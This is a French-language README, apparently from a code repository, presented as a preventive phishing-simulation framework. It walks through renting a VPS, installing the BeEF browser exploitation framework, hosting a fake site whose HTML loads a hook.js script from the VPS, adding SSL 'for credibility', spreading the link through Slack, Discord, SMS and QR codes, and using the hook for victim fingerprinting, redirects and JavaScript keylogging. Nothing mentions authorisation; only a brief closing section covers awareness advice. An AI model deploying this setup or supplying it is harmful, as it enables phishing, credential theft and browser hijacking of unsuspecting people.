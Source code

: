 # 🚀 Framework Préventif Phishing/Scam (Sans Email)

## 🏗️ 1. Infrastructure

### Prérequis :
- VPS (OVH, Hetzner, Contabo, Scaleway)
  - Debian 12 ou Ubuntu 22.04 LTS
  - 2 vCPU, 4 Go RAM, 50 Go SSD
  - IP publique

## 🧰 2. Stack technique

| Composant       | Rôle                   |
|-----------------|------------------------|
| BeEF           | Capturer les victimes  |
| Nginx          | Héberger le faux site  |
| Let's Encrypt  | SSL pour crédibilité   |
| UFW / Fail2Ban | Sécurité minimale      |
| Nom de domaine | Rendre ça pro          |

## 🔨 3. Installation

### a) Mise à jour VPS :
```bash
sudo apt update && sudo apt upgrade -y
sudo apt install -y git curl build-essential ruby ruby-dev nginx certbot python3-certbot-nginx ufw fail2ban
```

### b) Installation de BeEF :
```bash
git clone https://github.com/beefproject/beef.git
cd beef
bundle install
./beef
```
Accès : http://[IP_VPS]:3000/ui/panel (login : beef / beef)

### c) Faux site avec Nginx :

1. Crée le dossier :
```bash
sudo mkdir -p /var/www/fauxsite
sudo nano /var/www/fauxsite/index.html
```
2. Ajoute un template de phishing (exemple : [credphish/templates](https://github.com/credphish/templates)) avec :
```html
<script src="http://[IP_VPS]:3000/hook.js"></script>
```
3. Configuration Nginx :
```bash
sudo nano /etc/nginx/sites-available/fauxsite
```
Contenu :
```nginx
server {
    listen 80;
    server_name tonfauxsite.com;

    root /var/www/fauxsite;
    index index.html;

    location / {
        try_files $uri $uri/ =404;
    }
}
```
Activation :
```bash
sudo ln -s /etc/nginx/sites-available/fauxsite /etc/nginx/sites-enabled/
sudo nginx -t
sudo systemctl reload nginx
```

### d) SSL Let's Encrypt :
```bash
sudo certbot --nginx -d tonfauxsite.com
```

## 🛡️ 4. Sécurité VPS :
```bash
sudo ufw allow OpenSSH
sudo ufw allow 80,443,3000/tcp
sudo ufw enable
```
Fail2ban actif par défaut.

## 🎯 5. Diffusion du lien :
- Slack, Discord, Teams
- QR code imprimé
- SMS interne

## 📊 6. Suivi via BeEF :
- OS, navigateur, plugins
- IP et géolocalisation
- Actions : popup, redirection, keylogger JS

## 📁 7. Rapport final :
- Nombre de victimes
- Failles humaines détectées
- Recommandations : vigilance sur les liens, vérifier les URLs, méfiance même en interne

## 📌 Recap :

| ÉTAPE           | OUTIL       | OBJECTIF              |
|-----------------|-------------|-----------------------|
| VPS            | Hetzner     | Hébergement          |
| BeEF           | GitHub      | Capture & exploitation|
| Faux Site      | Nginx + HTML| Simulation phishing  |
| SSL            | Certbot     | Crédibilité https    |
| Sécurité       | UFW/Fail2ban| VPS protégé          |
| Diffusion lien | Slack/QR/etc| Remplacement des mails|


cacaaaaa